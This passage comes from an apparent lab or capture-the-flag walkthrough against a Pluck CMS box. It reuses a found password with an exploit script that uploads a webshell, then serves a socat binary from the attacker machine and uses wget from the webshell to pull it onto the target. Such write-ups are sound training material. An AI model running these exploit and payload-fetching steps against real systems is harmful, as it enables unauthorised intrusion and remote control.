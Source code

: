 
We find a password `CharlesTreePokemon44`

We can try this with SSH (for example for the `norman` user) but we don't get anywhere.

Since we already found the exploit for Pluck CMS, let's see if we can use this password.

```
└─$ python3 exploit.py 172.16.118.131 80 CharlesTreePokemon44 /cms

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://172.16.118.131:80/cms/files/shell.phar
```

Indeed it works and seems that it has uploaded a webshell in the cms directory as the user `www-data`.

## Escalation

Although this is a decent shell, we want to have a more stable one, more functional if we need to edit files for example.

Let's use socat.

First we get the executable on the target box (socat can be downloaded from here: https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

We start a python listener to the relevant directory we have the executable

```
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And from the target machine we go to `/dev/shm` and use `wget`to get the binary and give it execution permissions:

```
p0wny@shell:/dev/shm# wget 172.16.118.132/socat
--2021-11-18 09:09:30--  http://172.16.118.132/socat
Connecting to 172.16.118.132:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: 'socat'

     0K .......... .......... .......... .......... .......... 13% 11.7M 0s
    50K .......... .......... .......... .......... .......... 27% 43.8M 0s
   100K .......... .......... .......... .......... .......... 40% 29.7M 0s
   150K .......... .......... .......... .......... .......... 54% 47.4M 0s
   200K .......... .......... .......... .......... .......... 68% 27.5M 0s
   250K .......... .......... .......... .......... .......... 81% 44.9M 0s
   300K .......... .......... .......... .......... .......... 95% 39.3M 0s
   350K .......... ......                                     100%  168M=0.01s

2021-11-18 09:09:30 (29.4 MB/s) - 'socat' saved [375176/375176]


p0wny@shell:/dev/shm# chmod +x socat
```
